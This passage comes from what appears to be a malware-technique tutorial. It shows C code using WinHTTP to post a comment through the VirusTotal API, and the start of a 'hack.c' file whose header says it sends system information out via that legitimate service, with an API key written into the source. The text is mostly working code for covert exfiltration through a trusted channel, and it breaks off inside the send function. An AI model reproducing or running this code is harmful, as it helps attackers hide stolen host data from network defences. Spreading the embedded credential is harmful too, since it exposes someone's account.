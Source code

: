 ```cpp

  BOOL hResponse = WinHttpReceiveResponse(hRequest, NULL);
  if (!hResponse) {
    fprintf(stderr, "WinHttpReceiveResponse. Error %d has occurred.\n", GetLastError());
  }

  DWORD code = 0;
  DWORD codeS = sizeof(code);
  if (WinHttpQueryHeaders(hRequest, WINHTTP_QUERY_STATUS_CODE | WINHTTP_QUERY_FLAG_NUMBER, WINHTTP_HEADER_NAME_BY_INDEX, &code, &codeS, WINHTTP_NO_HEADER_INDEX)) {
    if (code == 200) {
      printf("comment posted successfully.\n");
    } else {
      printf("failed to post comment. HTTP Status Code: %d\n", code);
    }
  } else {
    DWORD error = GetLastError();
    LPSTR buffer = NULL;
    FormatMessageA(FORMAT_MESSAGE_ALLOCATE_BUFFER | FORMAT_MESSAGE_FROM_SYSTEM | FORMAT_MESSAGE_IGNORE_INSERTS,
                   NULL, error, 0, (LPSTR)&buffer, 0, NULL);
    printf("WTF? unknown error: %s\n", buffer);
    LocalFree(buffer);
  }

  WinHttpCloseHandle(hConnect);
  WinHttpCloseHandle(hRequest);
  WinHttpCloseHandle(hSession);

  printf("successfully send info via VT API :)\n");
  return 0;
}
```

As you can see, this is just post request, in my case file ID = `379698a4f06f18cb3ad388145cf62f47a8da22852a08dd19b3ef48aaedffd3fa`.     

So the full source code is looks like this:    

```cpp
/*
 * hack.c
 * sending systeminfo via legit URL. VirusTotal API
 * author @cocomelonc
 * https://cocomelonc.github.io/malware/2024/06/25/malware-trick-41.html
*/
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <windows.h>
#include <winhttp.h>
#include <iphlpapi.h>

#define VT_API_KEY "7e7778f8c29bc4b171512caa6cc81af63ed96832f53e7e35fb706dd320ab8c42"
#define FILE_ID "379698a4f06f18cb3ad388145cf62f47a8da22852a08dd19b3ef48aaedffd3fa"

// send data to VirusTotal using winhttp
int sendToVT(const char* comment) {
  HINTERNET hSession = NULL;
  HINTERNET hConnect = NULL;

  hSession = WinHttpOpen(L"UserAgent", WINHTTP_ACCESS_TYPE_DEFAULT_PROXY, WINHTTP_NO_PROXY_NAME, WINHTTP_NO_PROXY_BYPASS, 0);
  if (hSession == NULL) {
```